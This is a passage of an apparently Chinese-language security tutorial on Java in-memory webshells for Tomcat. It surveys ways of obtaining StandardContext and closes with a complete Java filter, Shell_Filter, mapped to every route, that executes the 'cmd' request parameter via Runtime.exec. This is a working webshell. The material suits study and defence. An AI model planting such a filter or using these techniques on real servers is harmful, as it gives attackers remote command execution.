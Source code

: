 注意：这种方法仅在 Tomcat 8,9 中有效

#### 通过 ThreadLocal 获取 request

> 这个方法来自于 threedr3am 师傅的文章：[基于tomcat的内存 Webshell 无文件攻击技术 - 先知社区](https://xz.aliyun.com/t/7388#toc-0)，详细过程就不展开了，看文章即可。获取request之后，就可以获得StandardContext了，这种方法可以兼容tomcat 789，但在Tomcat 6下无法使用。

这个方法首先利用反射修改 ApplicationDispatcher.WRAP_SAME_OBJECT 为 true，对 lastServicedRequest 和 lastServicedResponse 进行初始化，这两个属性均为 ThreadLocal 实例。
```java
if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
    lastServicedRequest.set(request);
    lastServicedResponse.set(response);
}
```
初始化后，每次请求，就能通过这两个 ThreadLocal 获取到相应的 request。 获取到 request 之后，就可以按照"已有 request 对象"中的步骤进行获取。

#### 通过 MBean 获取
> Tomcat 使用 JMX MBean 来实现自身的性能管理。而我们可以从jmxMBeanServer对象，在其field中一步一步找到StandardContext对象。具体实现过程和代码，可见这篇文章:[中间件内存马注入&冰蝎连接(附更改部分代码)](https://mp.weixin.qq.com/s/eI-50-_W89eN8tsKi-5j4g)，这种方法可以兼容Tomcat789，但有个很大的局限性在于，必须猜中项目名和host，才能获取到对应的 standardContext 对象。

#### 通过 Spring 获取
> 这里的context是spring中的运行时上下文，并非tomcat的StandardContext对象。所以这个context是注入SpringMVC 和SpringBoot框架下的controller和intercepter才能用的。具体实现方法和代码，可以看这篇文章:[LandGrey's Blog](https://landgrey.me/blog/12/)

#### 通过 Acceptor 获取
这篇文章：[Java内存马：一种Tomcat全版本获取StandardContext的新方法 - 先知社区](https://xz.aliyun.com/t/9914#toc-8) 介绍了一种兼容 Tomcat 6789 获取 StandardContext 的方法。


## filter 型
### 静态注册 filter
正常情况下，我们如果要添加一个 filter，可以通过实现 Filter 接口来完成，如下的代码中，Shell_Filter 实现了 Filter 接口，重写了 doFilter 函数，并且使用 WebFilter 注解将该过滤器绑定到能够被 /* 匹配的所有路由上。

doFilter 会先获取 cmd 参数内容，然后通过 Runtime 实现命令执行。

```java
import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.IOException;

@WebFilter(urlPatterns = "/*")
public class Shell_Filter implements Filter {

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        String cmd = servletRequest.getParameter("cmd");
        if (cmd != null){
            try {
                Runtime.getRuntime().exec(cmd);
            }catch (Exception e){
                e.printStackTrace();
            }
        }
        filterChain.doFilter(servletRequest,servletResponse);
    }
}
```
如果要让这个 filter 生效，还需要在 springboot 入口上添加 ServletComponentScan 注解。

